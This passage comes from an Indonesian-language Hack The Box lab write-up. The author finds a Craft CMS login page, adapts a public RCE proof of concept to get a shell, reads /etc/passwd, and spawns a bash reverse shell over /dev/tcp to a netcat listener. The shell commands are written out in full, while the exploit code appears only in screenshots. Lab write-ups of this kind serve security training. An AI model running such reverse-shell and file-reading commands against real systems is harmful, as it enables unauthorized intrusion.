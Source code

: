 Dari situ saya mencoba untuk masuk kedalam directory /admin nya untuk mengecek ada apa di dalam directory tersebut

## _**Service Enumeration**_

![image](https://github.com/Bepe2306/Hack-The-Box-HTB-/assets/153899054/0fe3f30d-0fb0-4506-b9ee-9b097355b4c6)

Dari directory tersebut, ternyata saya diarahkan kedalam sebuah login page, namun dari login page ini, saya mengsuspect apabila cara untuk mengbypass nya menggunakan sql injection. 
Tapi saya mencoba melakukan beberapa analisis terlebih dahulu untuk mengumpulkan clue tambahan.

Dari tampilan login page ini, terdapat tulisan `craft cms`. Disini saya kurang tau apa itu craft cms tapi saya mencoba untuk melanjutkan analisis saya terlebih dahulu. Saat saya mencoba view page source dan menganalisis codingannya, saya menemukan sebuah link github yg berisi semacam penjelasan tentang version craft cms.

Dari situ saya melanjutkan googling pada version craft cms nya dan menemukan sebuah **RCE PoC** dari github

![image](https://github.com/Bepe2306/Hack-The-Box-HTB-/assets/153899054/74d4acf8-406b-467e-ab07-6829d17dc145)

Dari analisis yang lebih lanjut melalui github yang saya temui, ternyata ada bagian codingan yang bisa saya ganti untuk mengexploit vulnerabilitynya, dari situ saya mengcopy codingannya dan saya save ke dalam local kali linux saya agar bisa saya edit

![image](https://github.com/Bepe2306/Hack-The-Box-HTB-/assets/153899054/2e360376-5fe4-4c37-bb2b-5a185e09dfe9)

Dari sini saya langsung ganti proxiesnya ke web surveillance.htb dan kemudian saya save dalam bentuk python script

Setelah saya selesai mengedit dan sudah saya save, saya jalankan python script tersebut dan saya hubungkan dengan web surveillance.htb nya. Ternyata dari situ saya misa mendapatkan shell dari web nya.

![image](https://github.com/Bepe2306/Hack-The-Box-HTB-/assets/153899054/64c42340-59eb-432b-92e8-232cb3d6f268)

saya mencoba melakukan command `cat /etc/passwd` agar saya bisa melihat isi dari shell ini dan dari situ saya mendapatkan `user matthew`

Disini saya mencoba melakukan rev shell lagi dari shell yang saya dapatkan dengan command:

`bash -c "bash -i >& /dev/tcp/10.10.16.64/1234 0>&1"`

Sebelum saya mengexecute command reverse shell tersebut, saya sudah menjalankan `netcat` terlebih dahulu pada port yang ingin saya listen dan setelah saya execute, saya berhasil mendapatkan reverse shell connectionnya

![image](https://github.com/Bepe2306/Hack-The-Box-HTB-/assets/153899054/c49e1725-897a-442e-8084-cbbcfce7d8e2)

## _**Exploitation**_

Setelah saya mendapatkan reverse shell nya, saya mendapatkan cukup banyak directory yang bisa saya visit. Karena saya ingin menghemat waktu, saya langsung mengetik tree saja agar terlihat file apa saja yang terdapat dalam directory tersebut
